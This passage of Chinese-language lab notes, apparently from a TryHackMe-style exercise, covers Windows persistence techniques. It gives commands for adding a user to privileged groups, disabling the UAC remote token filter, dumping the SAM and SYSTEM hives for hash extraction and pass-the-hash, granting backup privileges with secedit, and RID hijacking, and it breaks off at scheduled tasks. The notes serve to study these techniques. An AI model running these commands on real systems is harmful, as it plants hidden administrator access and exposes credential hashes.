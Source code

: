                 ```
                C:\> net localgroup "Backup Operators" thmuser1 /add
                C:\> net localgroup "Remote Management Users" thmuser1 /add (允许 WinRM 访问)
                ```
                
                - **UAC 与 LocalAccountTokenFilterPolicy**: 远程登录时，UAC 默认会剥离本地账户的管理权限。需修改注册表以禁用此策略，使远程会话获得完整权限：
                    
                    Bash
                    
                    ```
                    C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
                    ```
                    
                - 获取权限后，可通过 WinRM 连接，使用 `reg save hklm\system system.bak` 和 `reg save hklm\sam sam.bak` 备份 SAM 和 SYSTEM 文件，下载后用 `secretsdump.py` 提取哈希，进而使用 Pass-the-Hash 以管理员权限重新连接。
    - **2. 特殊权限和安全描述符**:
        - **原理**: 直接为用户分配特定权限 (如 `SeBackupPrivilege`, `SeRestorePrivilege`)，而无需改变其组成员身份。
        - **步骤 (使用 secedit)**:
            
            1. 导出当前配置: `secedit /export /cfg config.inf`
            2. 编辑 `config.inf` 文件，在 `SeBackupPrivilege` 和 `SeRestorePrivilege` 行添加目标用户名。
            3. 导入修改后的配置:
                
                Bash
                
                ```
                secedit /import /cfg config.inf /db config.sdb
                secedit /configure /db config.sdb /cfg config.inf
                ```
                
            
            <!-- end list -->
            - 修改 WinRM 服务安全描述符以允许该用户连接 (需 GUI 会话操作):
                
                PowerShell
                
                ```
                Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
                ```
                
                在弹出的窗口中添加用户并授予完全权限。
            - 同样需要注意 `LocalAccountTokenFilterPolicy` 的设置。
    - **3. RID 劫持 (克隆账户/僵尸攻击)**:
        - **原理**: 修改非特权用户的 RID (Relative Identifier)，使其与管理员账户的 RID (通常为 500) 相同。登录时，LSASS 会根据 RID 创建访问令牌，从而赋予非特权用户管理员权限。
        - **步骤**:
            1. 获取用户 SID 及 RID: `wmic useraccount get name,sid` (RID 是 SID 的最后一部分)。
            2. 以 SYSTEM 权限运行注册表编辑器: `C:\tools\pstools\PsExec64.exe -i -s regedit`。
            3. 导航到 `HKLM\SAM\SAM\Domains\Account\Users\`。找到目标用户对应的键 (其名称是用户 RID 的十六进制形式，如 1010 对应 `000003F2`)。
            4. 修改该键下的 `F` 值中位于 `0x30` 偏移处的二进制数据，将其改为管理员 RID (500 = `0x01F4`) 的小端字节序表示 (即 `F401`)。
            5. 用户下次登录时将获得管理员权限。

##### 2. 计划任务 (Scheduled Tasks)

- **原理**: 创建在特定时间（如系统启动、用户登录、固定间隔）或由特定事件触发执行恶意命令或程序的计划任务。
- **Windows**:
    - **命令**:
        